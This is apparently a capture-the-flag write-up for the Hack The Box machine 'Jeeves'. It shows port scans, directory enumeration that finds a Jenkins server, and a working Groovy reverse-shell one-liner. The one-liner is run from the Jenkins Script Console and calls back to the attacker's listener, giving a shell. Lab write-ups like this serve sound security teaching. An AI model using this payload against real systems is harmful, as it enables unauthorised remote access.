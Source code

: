 ```yaml
---
URL: https://app.hackthebox.com/machines/114
---
```

## Port Scan

We get the following result when we run a port scan on the machine

```bash
$ sudo nmap -sS -p- -Pn 10.10.10.63 --min-rate=5000 -oN all
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 10:07 AEST
Nmap scan report for 10.10.10.63
Host is up (0.34s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 27.07 seconds

$ sudo nmap -sC -sV 10.10.10.63 -Pn -p80,135,445,50000     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 10:08 AEST
Nmap scan report for 10.10.10.63
Host is up (0.33s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h00m33s, deviation: 0s, median: 5h00m33s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-13T05:09:24
|_  start_date: 2025-07-13T05:06:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.45 seconds
```

We see the following services running on the machine.

1. `80`: Microsoft IIS HTTP server
2. `135`: Windows RPC
3. `445`: SMB Share
4. `50000`: Jetty http server

## Webserver on 80

When we visit the site we are greeted with the following page.

![[Jeeves_website.png]]

If we do a quick view page source we see all requests are forwarded to an `error.html` resource and none of the hyperlinks work.

```HTML
<!DOCTYPE html>
<html>
<head>
<title>Ask Jeeves</title>
<link rel="stylesheet" type="text/css" href="style.css">
</head>

<body>
<form class="form-wrapper cf" action="error.html">
    <div class="byline"><p><a href="#">Web</a>, <a href="#">images</a>, <a href="#">news</a>, and <a href="#">lots of answers</a>.</p></div>
  	<input type="text" placeholder="Search here..." required>
	  <button type="submit">Search</button>
    <div class="byline-bot">Skins</div>
</form>
</body>

</html>
```

The `error.html` pages looks like an actual error at a glance, but upon further inspection we notice it is simply an image.

![[Jeeves_error.png]]

## Jetty Server on 50000

Since the webserver seemed like a dead end, we can try to enumerate the service on port `50000` to see whether there are any interesting directories.

```bash
$ gobuster dir -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 100
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63:50000
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.10.10.63:50000/askjeeves/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

When we visit the `askjeeves` end-point, we are greeted with a Jenkins server. Since we seem to have access to the script console (`Manage Jenkins > Script Console`) we can use a `Groovy` script to spawn a rev shell to our machine.

```Groovy
String host="10.10.14.19";int port=6666;String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```bash
$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.63] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```

Jeeves